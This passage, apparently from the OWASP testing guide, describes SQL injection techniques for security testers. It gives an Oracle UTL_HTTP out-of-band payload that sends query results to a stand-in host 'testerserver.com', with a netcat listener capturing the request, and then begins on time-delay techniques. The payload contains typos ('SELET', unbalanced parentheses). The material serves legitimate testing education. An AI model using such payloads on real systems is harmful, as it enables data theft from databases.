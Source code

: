 
#### Out of band Exploitation technique

This technique is very useful when the tester find a [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection) situation, in which nothing is known on the outcome of an operation. The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server. Like the error based techniques, each DBMS has its own functions. Check for specific DBMS section.


Consider the following SQL query:


```
SELECT * FROM products WHERE id_product=$id_product
```


Consider also the request to a script who executes the query above:


```
http://www.example.com/product.php?id=10
```


The malicious request would be:


```
http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELET user FROM DUAL)--
```


In this example, the tester is concatenating the value 10 with the result of the function UTL_HTTP.request. This Oracle function will try to connect to ‘testerserver’ and make a HTTP GET request containing the return from the query “SELECT user FROM DUAL”.  The tester can set up a webserver (e.g. Apache) or use the Netcat tool:

```
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### Time delay Exploitation technique

The Boolean exploitation technique is very useful when the tester find a [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection) situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).


Consider the following SQL query:


```
SELECT * FROM products WHERE id_product=$id_product
```
